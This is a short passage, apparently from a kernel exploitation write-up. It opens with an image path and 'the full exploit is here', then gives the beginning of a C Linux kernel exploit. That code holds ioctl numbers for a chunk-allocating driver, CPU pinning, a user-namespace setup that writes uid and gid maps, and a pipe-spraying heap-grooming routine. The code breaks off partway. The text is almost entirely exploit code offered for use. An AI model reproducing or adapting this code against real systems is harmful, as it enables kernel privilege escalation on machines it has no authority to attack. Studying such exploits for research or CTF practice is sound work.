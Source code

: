 the full exploit is here:
```c
#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <linux/dma-heap.h>

#define CREATE_CHUNK 4919
#define DELETE_CHUNK 4920
#define DELETE_CHUNK_NOZERO 4921

#define MAX_IDX 0xff

void bind_cpu(int cpu) {
    cpu_set_t mask;
    CPU_ZERO(&mask);
    CPU_SET(cpu, &mask);
    sched_setaffinity(0, sizeof(mask), &mask);

    return;
}

void unshare_setup() {
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    return;
}

int **spray_pipes(int cnt) { // 0x4
    int **pipe_fd = malloc(cnt*8 + 1);

    for (int i = 0; i < cnt; i++) {
        pipe_fd[i] = malloc(0x10 + 1);

        if(pipe(pipe_fd[i]) < 0) {
            perror("pipe");
            exit(-1);
        }
    }

```